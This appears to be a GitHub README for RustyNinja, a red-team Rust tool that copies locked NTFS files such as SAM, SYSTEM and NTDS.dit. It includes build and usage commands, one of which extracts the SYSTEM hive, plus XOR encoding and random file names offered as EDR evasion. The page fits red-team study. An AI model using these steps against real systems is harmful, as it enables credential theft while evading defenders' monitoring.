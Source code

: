 # RustyNinja - A Stealthy File Exfiltration Tool

> [!WARNING]
> This tool is a work-in-progress and was built as a **learn-Rust** project. The code is rough and not production-ready. Use it at your own risk, and feel free to contribute or suggest improvements!

RustyNinja is a Rust-based tool for **stealthily exfiltrating locked files** from an NTFS volume, inspired by the [NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) PowerShell script. 

If you have **Admin privileges**, RustyNinja allows you to access and copy files that are typically locked by the OS (such as registry hives: `SYSTEM`, `SAM`, `SECURITY`, or `NTDS.dit`). The tool works by opening a read handle to the NTFS volume and parsing the filesystem structure directly, bypassing file locks and restrictions.

> [!TIP]
> Copying sensitive files this way may help bypass certain Endpoint Detection and Response (EDR) solutions, making it useful for red team engagements. Traditional methods like `ntdsutil`, `diskshadow`, `reg save`, or RPC can be quite noisy, while RustyNinja attempts to be more discreet.

### Key Features:
- **Bypass File Locks**: Extract locked files from NTFS volumes, even if they're in use by the system.
- **XOR Encryption**: Optionally XOR the file content in-memory before writing it to disk for detection evasion.
- **Randomized Output Filenames**: Each output file is given a randomly generated name for added stealth.
- **Flexible XOR Key**: If you don't need encryption, simply use `0x00` as the XOR byte to copy the file as-is.

## 🛠️ Compiling

To compile RustyNinja for Windows:

```bash
rustup target add x86_64-pc-windows-gnu
cargo build --release --target x86_64-pc-windows-gnu
```
This will create a release binary targeting Windows.

## 🚀 Usage

RustyNinja requires two arguments:

    1. Volume Path: Path to the NTFS volume containing the file you want to copy.
    2. XOR Key: A hex value used to XOR the file's content.

Example:

```sh
rustyninja.exe [volume path] [XOR hex value]

Example: 
rustyninja.exe c:\windows\system32\config\SYSTEM 0x33

Output: 
Xoring and saving 20185088 bytes of data to: tySXLjFMRndoxTuq.bin
```
    Note: If you want to skip the XOR operation and copy the file directly, pass 0x00 as the XOR key.

## 🔄 XOR Decoder

If you have XORed the file content, use the following Python script to decode it back:

```sh
python de-xor.py tySXLjFMRndoxTuq.bin 0x33
```

This will create a .out file with the decoded content.

## 🧪 Verifying the SYSTEM Hive

To verify the integrity of the extracted SYSTEM hive, you can use the RegRipper tool:

```sh
regripper -r tySXLjFMRndoxTuq.bin.out -f system
```

This will parse the SYSTEM hive and verify its validity.

## 🙌 Acknowledgements

Big thanks and inspiration from Colin Finck who created the NTFS implementation in Rust.
